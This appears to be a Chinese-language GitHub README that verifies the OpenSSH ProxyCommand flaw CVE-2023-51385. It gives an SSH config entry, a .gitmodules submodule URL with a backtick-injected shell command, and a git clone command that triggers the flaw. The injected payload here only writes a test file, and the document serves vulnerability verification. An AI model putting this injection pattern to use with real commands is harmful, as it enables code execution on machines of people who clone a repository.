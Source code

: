 ## 验证CVE-2023-51385

首先需要在`~/.ssh/config`中增加如下内容

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

`.gitmodules`文件语句中存在命令注入

```
url = ssh://`echo helloworld > cve.txt`foo.example.com/bar
```

配置完成后,执行下面的指令触发

```
git clone https://github.com/LtmThink/CVE-2023-51385_test --recurse-submodules
```

如果成功执行将会在CVE-2023-51385_test目录下生成cve.txt文件

![image-20240317161540677](https://ltmthink-blogimages.oss-cn-hangzhou.aliyuncs.com/imgs/202403171617767.png)

注意:OpenSSH需要<9.6p1



详细信息见这篇博客:

https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html

